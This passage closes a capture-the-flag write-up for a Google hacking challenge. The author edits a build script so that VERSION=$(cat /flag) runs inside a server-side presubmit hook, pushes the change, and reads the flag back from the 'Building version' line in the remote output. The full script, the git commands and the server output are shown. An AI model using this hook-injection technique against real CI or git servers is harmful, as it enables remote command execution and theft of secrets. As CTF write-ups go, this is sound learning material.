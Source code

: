 ```sh
```

Okay so the `echo` and `cat` did not happen, but I noticed that the version has changed to my new string! That means I have *some* effect on the presubmit hook.

What could I do now?

The `build.sh` code has the following command `echo "Building version ${VERSION}"`. So I can reliably change `VERSION` to whatever I want and the server will send it back to me. Let's change it to the output of the `cat` command I want to run so bad:

```sh
#!/usr/bin/env bash

# IMPORTANT: Make sure to bump this before pushing a new binary.
VERSION=$(cat /flag)
COMMIT_HASH="$(git rev-parse --short HEAD)"
BUILD_TIMESTAMP=$(date '+%Y-%m-%dT%H:%M:%S')

LDFLAGS=(
  "-X 'main.Version=${VERSION}'"
  "-X 'main.CommitHash=${COMMIT_HASH}'"
  "-X 'main.BuildTime=${BUILD_TIMESTAMP}'"
)
# 
```

And let's try pushing again:

```sh
tal@tal:~/hackinggoogle/vrp_repo$ git add configure_flags.sh
tal@tal:~/hackinggoogle/vrp_repo$ git commit -m "Changes configure_flags.sh yet again"
[my-feature 26b8333] Changes configure_flags.sh yet again
 1 file changed, 1 insertion(+), 3 deletions(-)
tal@tal:~/hackinggoogle/vrp_repo$ git push --set-upstream origin my-feature --push-option=presubmit
Enumerating objects: 16, done.
Counting objects: 100% (16/16), done.
Delta compression using up to 2 threads
Compressing objects: 100% (12/12), done.
Writing objects: 100% (12/12), 1.30 KiB | 1.30 MiB/s, done.
Total 12 (delta 6), reused 0 (delta 0), pack-reused 0
remote: Starting presubmit check
remote: Cloning into 'tmprepo'...
remote: done.
remote: HEAD is now at 26b8333 Changes configure_flags.sh yet again
remote: Building version https://h4ck1ng.google/solve/...
remote: ./build.sh: line 5: go: command not found
remote: Build server must be misconfigured again...
remote: Thank you for your interest, but we are no longer accepting proposals
To git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo
 ! [remote rejected] my-feature -> my-feature (pre-receive hook declined)
error: failed to push some refs to 'git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo'
```

And the server replied with the flag, nice! Like the flag you can't see says, running commands on hooks can potentialy lead to easy RCEs!